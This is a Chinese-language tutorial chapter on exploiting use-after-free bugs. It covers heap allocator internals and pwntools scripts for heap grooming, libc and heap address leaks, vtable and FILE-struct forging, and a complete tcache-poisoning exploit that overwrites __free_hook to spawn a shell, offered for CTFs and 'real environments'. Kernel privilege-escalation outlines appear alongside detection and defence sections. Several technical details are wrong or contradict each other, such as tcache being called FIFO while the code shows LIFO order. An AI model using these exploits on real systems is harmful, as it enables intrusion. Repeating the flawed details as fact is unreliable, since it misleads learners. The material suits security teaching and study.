

## 4. Use-After-Free利用

Use-After-Free（UAF）是 C/C++ 中最危险的内存安全漏洞之一。它指的是程序在释放一块堆内存后，仍然通过悬垂指针（Dangling Pointer）访问该内存区域。攻击者可以在这块被释放的内存被重新分配后，通过控制新分配对象的内容来劫持程序的控制流。UAF 漏洞在浏览器引擎、操作系统内核、PDF 阅读器等复杂软件中极为常见，Chrome V8、Linux 内核、Adobe Reader 等知名项目都曾出现过严重的 UAF 漏洞。

本节将从内存分配器底层机制出发，系统讲解 UAF 漏洞的成因、分类、利用技术和防御方法。

### 4.1 UAF漏洞原理

#### 4.1.1 什么是悬垂指针

当程序调用 `free()` 释放一块堆内存后，指向该内存的指针变量并不会自动变为 `NULL`。这个指针仍然保存着已被释放内存的地址，成为**悬垂指针**（Dangling Pointer）。如果程序后续代码继续通过这个指针读写内存，就产生了 Use-After-Free 漏洞。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct User {
    char name[32];
    void (*greet)(void);    // 函数指针——控制流劫持的关键
};

void say_hello()   { printf("Hello!\n"); }
void say_evil()    { printf("Hijacked! Shellcode executed.\n"); }

void uaf_demo() {
    // 第一步：分配对象
    struct User *user1 = malloc(sizeof(struct User));
    strcpy(user1->name, "Alice");
    user1->greet = say_hello;
    user1->greet();            // 输出 "Hello!"

    // 第二步：释放对象（user1 变成悬垂指针）
    free(user1);
    // 此时 user1 != NULL，但 user1 指向的内存已经被释放

    // 第三步：攻击者在同一堆位置分配新对象
    // 在真实攻击中，通过堆喷射（Heap Spray）或精确的堆布局控制实现
    struct User *user2 = malloc(sizeof(struct User));
    // user2 极大概率复用了 user1 的内存块
    strcpy(user2->name, "Attacker-controlled");
    user2->greet = say_evil;   // 覆盖函数指针

    // 第四步：原程序通过悬垂指针 user1 调用函数
    user1->greet();            // 输出 "Hijacked!"——控制流被劫持

    free(user2);
    user1 = NULL;
    user2 = NULL;
}
```

**关键点**：UAF 的本质不是内存泄漏，而是**堆内存复用**导致的数据错乱或控制流劫持。释放的内存不会永远"空闲"——分配器会把它放进空闲链表，下一次相同大小的 `malloc()` 很可能返回同一地址。

#### 4.1.2 UAF 的三种危害层次

| 层次 | 危害 | 典型场景 |
|------|------|----------|
| **信息泄露** | 读取被释放内存中的残留数据（堆地址、密钥、指针） | 读取已释放对象的成员，泄露堆布局 |
| **数据篡改** | 通过悬垂指针写入数据，修改新分配对象的内容 | 覆盖权限标志、长度字段、回调函数 |
| **控制流劫持** | 覆盖函数指针、vtable 指针，将执行流导向攻击者代码 | 覆盖 C++ 虚表指针、结构体中的函数指针 |

#### 4.1.3 UAF 与其他内存漏洞的对比

| 特征 | Use-After-Free | 堆溢出 | Double Free | 类型混淆 |
|------|---------------|--------|-------------|----------|
| **根因** | 释放后访问 | 越界写入 | 同一块内存释放两次 | 对象类型被错误解释 |
| **利用难度** | 中等 | 较低 | 中等 | 较高 |
| **需要的原语** | 悬垂指针读写 | 越界写能力 | 两次 free 调用 | 对象布局知识 |
| **常见目标** | 函数指针、vtable | chunk 元数据 | 分配器链表破坏 | 虚表劫持 |
| **防护工具** | MTE、ASan | ASan、Guard Page | ASan、tcache key | CFI |

### 4.2 内存分配器与 UAF 的关系

理解 UAF 利用必须理解底层内存分配器的行为。分配器决定了释放的内存何时、以何种方式被重新分配，直接影响 UAF 的可利用性。

#### 4.2.1 glibc ptmalloc2（用户态）

ptmalloc2 是 glibc 的默认分配器，采用基于 arena 的多线程设计。与 UAF 利用最相关的是它的 bin 机制：

**Fast Bin（快速链表）**：
- 大小在 32~128 字节（64 位系统）的小对象
- LIFO（后进先出）结构——最后释放的 chunk 最先被分配
- 不合并相邻空闲 chunk
- **对 UAF 的意义**：free 后立刻 malloc 同大小，几乎 100% 复用同一地址

**Tcache（线程缓存，glibc 2.26+）**：
- 每个线程独立的缓存，大小 0x20~0x410
- 每个大小最多缓存 7 个 chunk
- FIFO 结构
- **对 UAF 的意义**：同大小 free→malloc 复用率极高，且 tcache 的安全检查比 fastbin 弱（早期版本无 key 字段）

**Unsorted Bin（未排序链表）**：
- 不属于 fastbin/tcache 的空闲 chunk 先进入 unsorted bin
- malloc 时遍历 unsorted bin 进行排序
- **对 UAF 的意义**：chunk 在 unsorted bin 中残留 fd/bk 指针（指向 main_arena），可用于信息泄露



#### 4.2.2 Linux 内核 SLAB/SLUB 分配器

内核中的 UAF 利用与用户态不同，SLUB 分配器有以下特点：

- **Per-CPU freelist**：每个 CPU 核心有独立的空闲链表，减少锁竞争
- **Freelist 指针混淆**：空闲 chunk 的 fd 指针经过 `xor` 混淆（内核 4.14+），防止直接读取堆地址
- **SLUB 增强安全**：`SLAB_FREELIST_HARDENED`（内核 4.14+）对 freelist 指针做 `pax_open_kernel` 检查
- **固定大小 cache**：同一 kmem_cache 中的对象大小相同，复用率高

```c
// 内核 UAF 典型模式：释放 kmalloc 对象后继续使用
struct request *req = kmalloc(sizeof(struct request), GFP_KERNEL);
// ... 使用 req ...
kfree(req);
// ... 漏洞代码：通过某种途径仍然持有 req 指针 ...
req->callback(req);  // UAF！req 可能已被其他内核对象占用
```

#### 4.2.3 V8 堆（浏览器引擎）

Chrome V8 的堆管理与传统 C 堆有显著差异：

- **分代收集**：新生代（New Space）用 Scavenge 算法，老年代（Old Space）用 Mark-Sweep-Compact
- **Page 机制**：内存按 Page（256KB）管理，每个 Page 属于某个 Space
- **GC 与 UAF**：V8 的 UAF 通常发生在 GC 回收对象后，C++ 层仍然持有指向该对象的裸指针
- **类型化数组**：`ArrayBuffer` 被释放后，对应的 `Uint8Array` 视图仍可访问——经典的浏览器 UAF 模式

### 4.3 UAF 漏洞的常见模式

#### 4.3.1 模式一：资源释放后访问

最经典的模式——对象被释放后，代码路径仍然访问它。

```c
// 典型的资源管理漏洞
void process_request(Connection *conn) {
    Request *req = conn->get_request();
    
    if (req->is_timeout()) {
        conn->close();           // 释放 conn 和关联的 req
        log_request(req);        // UAF：req 已随 conn 释放
        return;
    }
    // ... 正常处理 ...
}
```

**修复方案**：释放前检查指针有效性，或使用引用计数。

#### 4.3.2 模式二：多线程竞争条件

一个线程释放对象，另一个线程仍在使用。

```c
// 线程 A
void thread_a(Session *session) {
    session->process();
    free_session(session);       // 释放 session
}

// 线程 B（与线程 A 并发执行）
void thread_b(Session *session) {
    sleep(rand() % 100);         // 随机延迟
    session->send_response();    // UAF：session 可能已被 thread A 释放
}
```

**特点**：这种 UAF 的触发具有**不确定性**，需要精确的时序控制，利用难度高但危害大。竞态类 UAF 在内核中尤为常见（`struct file`、`struct sk_buff` 等对象的生命周期管理）。

#### 4.3.3 模式三：错误的生命周期管理

C++ 对象在析构后被基类指针引用。

```cpp
class Base {
public:
    virtual void execute() = 0;
    virtual ~Base() {}
};

class Derived : public Base {
    char *buffer;
public:
    Derived() { buffer = new char[1024]; }
    ~Derived() { delete[] buffer; }
    void execute() override { /* 使用 buffer */ }
};

void vulnerable(Base *obj) {
    delete obj;                  // 调用 Derived::~Derived()，释放 buffer
    obj->execute();              // UAF：vtable 可能已被覆盖，buffer 已释放
}
```

#### 4.3.4 模式四：JavaScript 引擎中的 UAF

浏览器中，DOM 节点和 JS 对象的生命周期由 GC 管理，但 C++ 后端可能持有裸指针。

```cpp
// 浏览器内核 C++ 侧的 UAF
class HTMLDocument {
    Node *active_node;  // 裸指针，不被 GC 追踪
public:
    void update() {
        // JS 侧触发 GC，回收了 active_node 指向的对象
        // 但 C++ 侧不知道
        active_node->render();  // UAF
    }
};
```

**攻击方式**：通过精心构造的 JS 脚本触发 GC，然后立刻分配新对象占位，最后触发 C++ 侧的悬垂指针访问。

### 4.4 UAF 利用技术

#### 4.4.1 堆风水（Heap Feng Shui）

堆风水是一种精确控制堆布局的技术，目的是让释放后重新分配的对象精确地落在目标地址。这是 UAF 利用的核心技术。

**用户态堆风水流程**：

1. **填充（Spray）**：大量分配同大小对象，使堆达到可预测状态
2. **释放目标**：释放目标对象，其内存进入空闲链表
3. **占位（Placeholder）**：分配攻击者控制的对象，精确占用目标地址
4. **触发 UAF**：通过悬垂指针访问被覆盖的内存

```python
from pwn import *

# 堆风水示例：精确控制 UAF 占位
def heap_feng_shui(p):
    # 第一步：分配一组 victim 对象
    victims = []
    for i in range(10):
        victims.append(alloc(p, 0x80, b'VICTIM_' + bytes([i]) * 0x78))
    
    # 第二步：释放中间的 victim（制造空洞）
    free(p, victims[3])   # victims[3] 的内存进入 tcache[0x90]
    free(p, victims[5])   # victims[5] 的内存进入 tcache[0x90]
    
    # 第三步：分配攻击对象占据被释放的位置
    # Tcache 是 LIFO（glibc 2.29+）/ FIFO（旧版），需要根据版本调整
    payload = b'A' * 32               # name 字段
    payload += p64(system_addr)        # 覆盖函数指针为 system()
    evil = alloc(p, 0x80, payload)     # 占据 victims[5] 的位置
    
    # 第四步：通过悬垂指针触发
    # victims[5] 的指针仍然存在，但内存已被 evil 控制
    call_victim(p, victims[5])         # 调用被劫持的函数指针
```

**内核堆风水**：

内核对象的分配和释放发生在 `kmem_cache` 中。攻击者需要：
1. 喷射大量同大小对象填满 per-cpu freelist 和 partial list
2. 释放目标对象
3. 快速分配攻击对象占位（需考虑 CPU 缓存行对齐）

#### 4.4.2 控制流劫持

UAF 利用的最终目标通常是劫持控制流。常见方式：

**函数指针覆盖**：

```c
// 攻击目标结构体
struct Handler {
    int id;
    void (*process)(struct Handler *);   // 攻击点
    char data[64];
};

// 攻击 payload：process 指向 system()
// 当原代码调用 handler->process(handler) 时
// 实际执行 system(handler) → system(data) → 执行 data 中的命令
```

**C++ 虚表劫持**：

```cpp
// 对象在内存中的布局（64 位系统）
// +0x00: vtable_ptr    ← 攻击者覆盖这个指针
// +0x08: member_1
// +0x10: member_2
// ...

// 攻击步骤：
// 1. 构造一个伪造的 vtable（在堆上或 .bss 段）
// 2. 通过 UAF 覆盖目标对象的 vtable_ptr
// 3. 触发虚函数调用 → 跳转到攻击者地址
```

```python
def vtable_hijack(target_obj_addr, fake_vtable_addr):
    """覆盖对象的 vtable 指针"""
    payload  = p64(fake_vtable_addr)    # vtable_ptr → 伪造的 vtable
    payload += p64(0)                   # padding
    payload += p64(shellcode_addr)      # member_1 → 可用于参数传递
    return payload
```

#### 4.4.3 信息泄露（堆地址泄露）

在开启 ASLR 的系统上，攻击者需要先泄露堆地址或 libc 地址才能构造有效 payload。

**利用 unsorted bin 残留指针**：

```python
def leak_libc_via_unsorted(p):
    """通过 unsorted bin 的 fd/bk 指针泄露 libc 地址"""
    # 1. 分配一个大 chunk（> fastbin 阈值）
    a = alloc(p, 0x420, b'A' * 0x420)
    
    # 2. 分配一个防止 top chunk 合并的 guard chunk
    guard = alloc(p, 0x20, b'G' * 0x20)
    
    # 3. 释放 chunk a（进入 unsorted bin）
    free(p, a)
    
    # 4. 如果存在 UAF，可以读取 chunk a 的内容
    # fd 和 bk 都指向 main_arena+96（unsorted bin 的头）
    leak = show(p, a)
    libc_base = u64(leak[:8]) - 0x3ebc40  # main_arena+96 的偏移（libc 2.27）
    
    print(f"[*] libc base: {hex(libc_base)}")
    return libc_base
```

**利用 tcache fd 指针**：

```python
def leak_heap_via_tcache(p):
    """通过 tcache 的 fd 指针泄露堆地址"""
    # 1. 分配两个同大小 chunk
    a = alloc(p, 0x40, b'A' * 0x40)
    b = alloc(p, 0x40, b'B' * 0x40)
    
    # 2. 按顺序释放（tcache FIFO）
    free(p, a)
    free(p, b)  # b->fd = a 的地址
    
    # 3. 通过 UAF 读取 b 的内容
    leak = show(p, b)
    heap_base = u64(leak[:8]) & ~0xfff  # 页对齐得到堆基址
    
    print(f"[*] heap base: {hex(heap_base)}")
    return heap_base
```

#### 4.4.4 从 UAF 到任意读写

UAF 本身只提供对特定堆地址的读写能力。要升级为任意读写，需要结合其他技术：

**方法一：对象伪造 + vtable 指针读写**

```text
UAF → 覆盖对象的 size/data 指针 → 任意读写
```

**方法二：FILE 结构体利用（glibc）**

```python
def exploit_file_struct(libc_base):
    """伪造 _IO_FILE 结构体实现任意写"""
    # _IO_FILE 结构体的 vtable 指针在 glibc 2.24+ 有检查
    # 但可以伪造整个 _IO_FILE_plus 结构体
    
    fake_file  = p64(0)                    # _flags
    fake_file += p64(0) * 6                # _IO_read_ptr 等
    fake_file += p64(target_addr)          # _IO_write_base → 任意写起点
    fake_file += p64(target_addr + 0x100)  # _IO_write_ptr → 任意写终点
    fake_file += p64(0) * 4
    fake_file += p64(fake_vtable_addr)     # vtable → 控制 _overflow
    
    return fake_file
```

**方法三：Large Bin Attack**

利用 large bin 的链表操作，在 unlink 过程中向任意地址写入堆地址。配合 `_IO_list_all` 可以实现 FSOP（File Stream Oriented Programming）。

### 4.5 真实世界案例分析

#### 4.5.1 案例一：Linux 内核 `struct msg_msg` UAF（CVE-2021-22555）

**漏洞位置**：Netfilter 子系统的 `xt_compat_match_from_user()` 函数

**漏洞描述**：在处理 32 位兼容模式的 Netfilter 规则时，由于结构体大小计算错误，导致内核堆越界写入。攻击者可以破坏相邻的 `struct msg_msg` 对象，实现 UAF。

**利用思路**：
1. 创建大量 `msgsnd()` 消息队列，喷射 `msg_msg` 对象到堆上
2. 触发漏洞，破坏目标 `msg_msg` 的 `m_list.next` 指针
3. 通过 `msgrcv()` 操作被破坏的链表，实现任意地址释放
4. 释放 `pipe_buffer` 对象的地址，然后重新分配 `msg_msg` 占位
5. 通过修改 `pipe_buffer` 实现任意读写
6. 覆盖 `modprobe_path` 提权

**关键代码片段**：

```c
// 伪代码：利用 msg_msg 实现 UAF
int spray_msg(int qid, char *buf, size_t len) {
    struct msgbuf *msg = malloc(sizeof(struct msgbuf) + len);
    msg->mtype = 1;
    memcpy(msg->mtext, buf, len);
    return msgsnd(qid, msg, len, 0);
}

// UAF 占位：释放 msg_msg 后用 pipe_buffer 占据同一地址
// pipe_buffer 的 ops->release 是函数指针——劫持点
```

#### 4.5.2 案例二：Chrome V8 ArrayBuffer UAF（CVE-2021-30554）

**漏洞位置**：V8 引擎的 `BackStore` 管理

**漏洞描述**：在特定条件下，`ArrayBuffer` 的 backing store 被释放后，关联的 typed array 视图仍持有指向该内存的指针。

**利用思路**：

```javascript
// 伪代码：浏览器 UAF 利用模板
let ab = new ArrayBuffer(0x100);
let view = new Uint8Array(ab);

// 触发 GC 回收 ArrayBuffer 的 backing store
// （通过特定的 JS 操作序列）
trigger_gc();

// 此时 view 的内部指针指向已释放的内存
// 通过堆喷射分配 controlled 对象占位
let spray = [];
for (let i = 0; i < 1000; i++) {
    spray.push(new ArrayBuffer(0x100));
}

// 通过 view 读写被占位的内存——实现类型混淆
// 读取 ArrayBuffer 的 internal pointer → 泄露堆地址
// 修改相邻对象的 Map → 类型混淆 → 任意读写
```

#### 4.5.3 案例三：Windows 内核 `win32k` UAF（CVE-2021-1732）

**漏洞位置**：`win32kfull!xxxCreateWindowEx` 中的窗口对象管理

**漏洞描述**：`tagWnd` 对象在创建过程中被释放，但内核仍然持有指向它的指针，导致 UAF。

**利用步骤**：
1. 创建窗口并触发特定的消息处理路径
2. 在回调中释放窗口对象（通过 `DestroyWindow`）
3. 喷射 `HMValidateHandle` 对象占位
4. 修改窗口对象的 `strName` 成员实现任意读写
5. 替换窗口对象的 `pSelf` 指针泄露内核基址
6. 修改 `TOKEN` 结构体提权

### 4.6 检测与调试技术

#### 4.6.1 AddressSanitizer（ASan）

ASan 是检测 UAF 最有效的工具之一。它在编译时插桩，运行时检查每次内存访问。

```bash
# 编译时启用 ASan
gcc -fsanitize=address -g -O0 vuln.c -o vuln_asan

# 运行程序，UAF 会被立即检测并报告
./vuln_asan
```

ASan 检测 UAF 的原理：
- 释放的内存被放入"隔离区"（quarantine），短时间内不会被重新分配
- 隔离区的内存被标记为"中毒"（poisoned）
- 任何对该区域的访问都会触发报告

**ASan 输出示例**：

```text
==12345==ERROR: AddressSanitizer: heap-use-after-free on address 0x60700000eff0
READ of size 8 at 0x60700000eff0 thread T0
    #0 0x400b27 in uaf_demo vuln.c:25
    #1 0x400c8e in main vuln.c:40

0x60700000eff0 is located 0 bytes inside of 80-byte region [0x60700000eff0,0x60700000f040)
freed by thread T0 here:
    #0 0x7f3c2e6b5f50 in free (/usr/lib/x86_64-linux-gnu/libasan.so.5+0xedf50)
    #1 0x400aed in uaf_demo vuln.c:22

previously allocated by thread T0 here:
    #0 0x7f3c2e6b6238 in malloc (/usr/lib/x86_64-linux-gnu/libasan.so.5+0xee238)
    #1 0x400a7d in uaf_demo vuln.c:18
```

#### 4.6.2 GDB 调试技巧

```bash
# 追踪 malloc/free 调用
gdb ./vuln
(gdb) catch syscall brk mmap munmap
(gdb) r

# 监控特定内存地址的访问
(gdb) watch *(void**)0x602010
(gdb) r

# 查看 glibc 分配器状态
(gdb) heap
(gdb) bins          # 查看所有 bin 的内容
(gdb) fastbins      # 查看 fastbin
(gdb) tcache        # 查看 tcache（需要 pwndbg 或 gef 插件）

# 检查悬垂指针
(gdb) p user1
(gdb) x/gx user1    # 查看 user1 指向的内存内容
(gdb) info proc mappings  # 确认地址是否在有效堆区域
```

#### 4.6.3 pwndbg/GEF 高级调试

```bash
# pwndbg 的 heap 分析命令
pwndbg> vis_heap_chunks     # 可视化堆布局
pwndbg> heap --verbose      # 详细堆信息
pwndbg> tcachebins          # tcache 状态
pwndbg> search -p 0x404020  # 搜索堆上的指针

# 追踪对象的完整生命周期
pwndbg> heap chunk <addr>   # 查看 chunk 详细信息
pwndbg> heap chunk -s 0x40  # 查看所有 0x40 大小的 chunk
```

#### 4.6.4 内核 UAF 检测

```bash
# KASAN（内核版 ASan）
# 编译内核时启用
CONFIG_KASAN=y
CONFIG_KASAN_INLINE=y

# KFENCE（低开销内核内存错误检测，内核 5.12+）
CONFIG_KFENCE=y
# 运行时检查 dmesg
dmesg | grep -i kfence
```

### 4.7 UAF 漏洞利用的完整流程

以下是一个完整的 UAF 漏洞利用流程模板，适用于 CTF 和真实环境：

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

def exploit():
    p = process('./vuln')
    # p = remote('challenge.example.com', 1337)
    
    # === 阶段一：信息收集 ===
    # 确定漏洞类型（UAF 读/UAF 写/两者兼有）
    # 确定对象大小（决定落入哪个 bin）
    # 确定 glibc 版本（决定利用策略）
    
    libc = ELF('./libc.so.6')
    
    # === 阶段二：堆布局 ===
    # 分配初始对象
    for i in range(8):
        alloc(p, 0x80, b'FILL')
    
    # === 阶段三：信息泄露 ===
    # 释放对象，利用 UAF 读取残留指针
    free(p, 0)
    free(p, 1)  # tcache: 1 → 0
    
    leak = show(p, 1)
    heap_base = u64(leak[:8]) & ~0xfff
    log.success(f"Heap base: {hex(heap_base)}")
    
    # 泄露 libc（通过 unsorted bin）
    alloc(p, 0x420, b'A' * 0x420)  # large chunk
    alloc(p, 0x20, b'GUARD')        # 防止合并
    free(p, 8)                      # 进入 unsorted bin
    
    leak2 = show(p, 8)
    libc_base = u64(leak2[:8]) - libc.symbols['__malloc_hook'] - 0x70
    log.success(f"libc base: {hex(libc_base)}")
    
    # === 阶段四：控制流劫持 ===
    # 覆盖 __malloc_hook 或 __free_hook
    free_hook = libc_base + libc.symbols['__free_hook']
    system = libc_base + libc.symbols['system']
    
    # 利用 tcache poisoning 将 chunk 分配到 free_hook 地址
    free(p, 0)  # tcache: 0
    free(p, 1)  # tcache: 1 → 0
    
    # UAF 写：修改 fd 指针
    edit(p, 1, p64(free_hook))
    
    # 分配两次：第一次得到 1，第二次得到 free_hook 地址
    alloc(p, 0x80, b'/bin/sh\x00')
    alloc(p, 0x80, p64(system))
    
    # === 阶段五：触发 ===
    free(p, 0)  # 触发 free("/bin/sh") → system("/bin/sh")
    
    p.interactive()

exploit()
```

### 4.8 防御技术与缓解措施

#### 4.8.1 编译期防御

| 防御技术 | 原理 | 效果 |
|----------|------|------|
| **Rust/Go** | 所有权模型或 GC 从语言层面消除 UAF | 根治，但需重写代码 |
| **C++ 智能指针** | `unique_ptr`/`shared_ptr` 自动管理生命周期 | 大幅减少，但不完美 |
| **-fsanitize=address** | 运行时检测，隔离已释放内存 | 开发/测试阶段使用 |
| **Clang CFI** | 控制流完整性检查，限制间接调用目标 | 阻止控制流劫持 |

#### 4.8.2 运行时防御

| 防御技术 | 原理 | 适用场景 |
|----------|------|----------|
| **MTE（ARM）** | 内存标签扩展，指针和内存各 4 位标签，不匹配则触发异常 | ARMv8.5+ 硬件 |
| **PAC（ARM）** | 指针认证码，函数指针签名防篡改 | ARMv8.3+ 硬件 |
| **Shadow Stack** | 独立的返回地址栈，防止覆盖返回地址 | 间接防护 |
| **Safe Linking** | glibc 2.32+ 对 tcache/fastbin 的 fd 指针做 XOR 混淆 | 用户态堆 |

#### 4.8.3 Safe Linking 详解（glibc 2.32+）

```c
// glibc 2.32 引入的 Safe Linking
// fd 指针在存入 freelist 时做 XOR 混淆
#define PROTECT_PTR(pos, ptr) \
    ((__typeof(ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
#define REVEAL_PTR(ptr)  PROTECT_PTR(&ptr, ptr)

// 攻击者无法直接构造有效的 fd 指针
// 需要先泄露堆地址才能计算正确的 XOR 值
```

**绕过思路**：如果能泄露堆地址（通过其他 UAF 读原语），就可以计算正确的 XOR 值，仍然能构造任意地址分配。

#### 4.8.4 开发者最佳实践

```c
// 1. 释放后立即置 NULL
free(ptr);
ptr = NULL;  // 后续访问会 segfault 而非静默 UAF

// 2. 使用引用计数管理共享对象
typedef struct {
    int refcount;
    void *data;
} RefObj;

void ref_release(RefObj *obj) {
    if (--obj->refcount == 0) {
        free(obj->data);
        free(obj);
    }
}

// 3. 使用所有权语义（C 中通过编码约定）
// 调用 free 的函数"拥有"该指针，调用后不再访问
```

### 4.9 练习与进阶

#### 4.9.1 CTF 经典题目

| 题目类型 | 特点 | 典型题目 |
|----------|------|----------|
| **note 管理器** | alloc/free/show/edit，有 UAF 漏洞 | pwnable.tw 的 BABYheap |
| **堆题 + 沙箱** | 需要 ORW（open/read/write）绕过沙箱 | HITCON 的 Silver Bullet 系列 |
| **浏览器 UAF** | JS + C++ 类型混淆，GC 触发 | Real World CTF 的 v8 题 |
| **内核 UAF** | `msg_msg`/`pipe_buffer` 占位 | Google CTF 的 kernel 系列 |

#### 4.9.2 学习路径建议

```text
入门 → 理解 malloc/free 机制 → 手动 GDB 调试堆布局
  ↓
进阶 → 学习 tcache poisoning → 掌握 house of 系列
  ↓
高级 → 内核 UAF（msg_msg/pipe）→ 浏览器 UAF（V8/SpiderMonkey）
  ↓
精通 → 绕过 MTE/Safe Linking → 1-day 漏洞分析与利用
```

**推荐练习平台**：
- **pwnable.tw**：经典 pwn 题，覆盖各种堆利用技术
- **CTFtime**：各大 CTF 赛事的 pwn 题
- **Google Project Zero 博客**：真实浏览器/内核漏洞分析
- **MCTS**（Malloc CTF Sandbox）：专门针对堆利用的沙箱练习

***

